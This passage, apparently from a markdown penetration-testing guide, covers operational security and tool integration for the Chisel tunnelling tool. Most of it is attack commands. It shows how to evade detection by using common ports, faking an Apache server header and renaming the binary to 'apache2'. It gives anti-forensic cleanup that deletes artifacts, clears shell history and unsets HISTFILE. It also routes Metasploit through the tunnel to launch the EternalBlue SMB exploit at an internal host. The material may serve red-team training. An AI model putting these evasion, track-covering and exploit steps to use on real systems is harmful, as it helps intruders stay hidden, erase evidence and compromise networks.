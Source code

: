 
## **8. Operational Security (OPSEC)**

### **Stealth Considerations**
1. **HTTP Traffic** - appears as web traffic
2. **Custom User-Agent** - avoid detection signatures
3. **Port Selection** - use common HTTP ports (80, 8080, 8000)
4. **Traffic Analysis** - WebSocket upgrade patterns
5. **Binary Artifacts** - temporary files, process names

### **Detection Evasion**
```bash
# Use common ports
./chisel server -p 80 --socks5        # HTTP port
./chisel server -p 443 --socks5       # HTTPS port

# Custom headers to blend in
./chisel server --headers "Server: Apache/2.4.41"

# Process name obfuscation
cp chisel apache2
./apache2 server -p 80 --socks5
```

### **Cleanup Commands**
```bash
# Remove binary artifacts
rm -f chisel*
rm -f /tmp/chisel*

# Clear command history
history -c
unset HISTFILE

# Kill background processes
pkill -f chisel
```

---

## **9. Integration with Other Tools**

### **Metasploit Integration**
```bash
# Use Chisel SOCKS proxy with Metasploit
echo "setg Proxies socks5:127.0.0.1:1080" > /tmp/msf_proxy.rc
msfconsole -r /tmp/msf_proxy.rc

# All Metasploit traffic now goes through Chisel tunnel
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 172.16.5.19
exploit
```
